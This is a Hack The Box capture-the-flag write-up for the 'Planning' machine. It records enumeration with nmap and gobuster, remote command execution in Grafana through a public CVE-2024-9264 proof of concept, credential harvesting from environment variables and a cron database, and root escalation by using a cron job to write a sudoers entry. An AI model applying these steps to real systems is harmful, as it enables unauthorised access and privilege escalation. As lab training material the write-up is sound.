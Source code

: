 ```yaml
---
clayout: ctf
title: Planning
date: 2025-03-12
image: /ctf/hack-the-box/machines/planning/info-card.png
type: Hack The Box

ctf:
    - name: Planning
      link: https://app.hackthebox.com/machines/660
      thumbnail: /ctf/hack-the-box/machines/planning/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/660
          thumbnail: /ctf/hack-the-box/machines/planning/pwned.png
---
```


## Machine Information

As is common in real life pentests, you will start the Planning box with credentials for the following account:

- Username: `admin`
- Password: `0D5oT70Fq13EvB5r`

## Enumeration

### Nmap Scan

```bash
nmap -sC -sV -v -A -oN nmap.txt 10.10.11.68
```

**Results:**

```bash
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62fff6d4578805adf4d3de5b9bf850f1 (ECDSA)
|_  256 4cce7d5cfb2da09e9fbdf55c5e61508a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

The scan revealed two open ports:

- **Port 22 (SSH):** OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
- **Port 80 (HTTP):** nginx 1.24.0 (Ubuntu)

## Web Application Enumeration

### Hostname Resolution

The domain `planning.htb` did not resolve automatically. To fix this, we added an entry to `/etc/hosts`:

```bash
echo "10.10.11.68 planning.htb" >> /etc/hosts
```

### Manual Inspection

Navigating to `http://planning.htb` revealed a web application named Edukate.

![Home page of the Edukate website](/ctf/hack-the-box/machines/planning/home-page.png){style="border-radius: 10px;"}

No obvious functionality or vulnerabilities were observed through manual inspection.

### Virtual Host Enumeration

Using `gobuster vhost` we can enumerate the subdomains:

```bash
gobuster vhost \
  -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
  -u "http://planning.htb" \
  -o gobuster-vhost.txt \
  -t 20 \
  --append-domain
```

**Results:**

```bash
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]
```

Adding the subdomain to `/etc/hosts`:

```bash
echo "10.10.11.68 grafana.planning.htb" >> /etc/hosts
```

### Grafana – Authenticated Access and Exploitation

Accessing `http://grafana.planning.htb` presented a Grafana login portal:

![Grafana login page](/ctf/hack-the-box/machines/planning/grafana-login.png)

Using the initial credentials (`admin:0D5oT70Fq13EvB5r`), we successfully logged in:

![Grafana dashboard](/ctf/hack-the-box/machines/planning/grafana-dashboard.png)

> [!NOTE]
> Grafana is an open-source platform for monitoring and observability.

By inspecting the UI (via the help menu), the version was identified as **Grafana v11.0.0 (83b9528bce)**.

### Exploiting CVE-2024-9264 (RCE via SQL Injection)

Grafana v11.0.0 is affected by [CVE-2024-9264](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/), a critical vulnerability allowing remote command execution and local file inclusion.

Using the public [PoC](https://github.com/nollium/CVE-2024-9264), we confirmed remote code execution:

```bash
python3 CVE-2024-9264.py \
  -u admin \
  -p 0D5oT70Fq13EvB5r \
  -c "id" \
  http://grafana.planning.htb
```

**Output:**

```bash
uid=0(root) gid=0(root) groups=0(root)
```

### Credential Discovery via Environment Variables

By executing `env`, we extracted Grafana's administrative credentials:

```bash
python3 CVE-2024-9264.py \
  -u admin \
  -p 0D5oT70Fq13EvB5r \
  -c "env" \
  http://grafana.planning.htb
```

**Output:**

```bash
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

### Shell Access via SSH

Using the credentials discovered via RCE, we successfully logged in via SSH:

```bash
ssh enzo@planning.htb
# Password: RioTecRANDEntANT!
```

**Output:**

```bash
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

The user flag is in the `/home/enzo/user.txt` file.

## Privilege Escalation

### Linpeas

Post-exploitation enumeration using **LinPEAS** highlighted the presence of a global npm module:

- **Module**: crontab-ui (Dockerfile exposes the application on port 8000)
- We found a database file at `/opt/crontabs/crontab.db`.

```bash
cat /opt/crontabs/crontab.db
```

**Output:**

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

This indicates a **cron job running** as root every minute, invoking a script located in `/root/scripts/`. Another job archives Grafana backups and uses the password `P4ssw0rdS0pRi0T3c`, embedded in a zip command.

### Exploiting Local Web Interface

The `Dockerfile` exposes the application on port `8000`. Looking at the `netstat` output, we can see that the port is listening locally:

```bash
(netstat -punta || ss --ntpu)

tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
```

### Port Forwarding via SSH

To access the service, we can use SSH port forwarding:

```bash
ssh -L 1337:localhost:8000 enzo@planning.htb
```

### Accessing crontab-ui

Navigating to `http://localhost:1337` displayed the crontab-ui login page.

- Username: `admin`
- Password: `P4ssw0rdS0pRi0T3c`

Upon login, we gained access to the web interface:

![Cronjob dashboard](/ctf/hack-the-box/machines/planning/cronjob-dashboard.png)

### Privilege Escalation via Cron Injection

Through the Cronjob UI, we can create a new cronjob that will execute a command who will change the authorisation of the `enzo` user.

![Cronjob creation](/ctf/hack-the-box/machines/planning/cronjob-creation.png)

```bash
echo "enzo ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

After running the cron job, we checked sudo privileges:

```bash
sudo -l
```

**Results:**

```bash
User enzo may run the following commands on planning:
    (ALL : ALL) ALL
```

### Root Shell

With unrestricted sudo access, we can get a root shell:

```bash
su
```

**Output:**

```bash
root@planning:~# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is in the `/root/root.txt` file.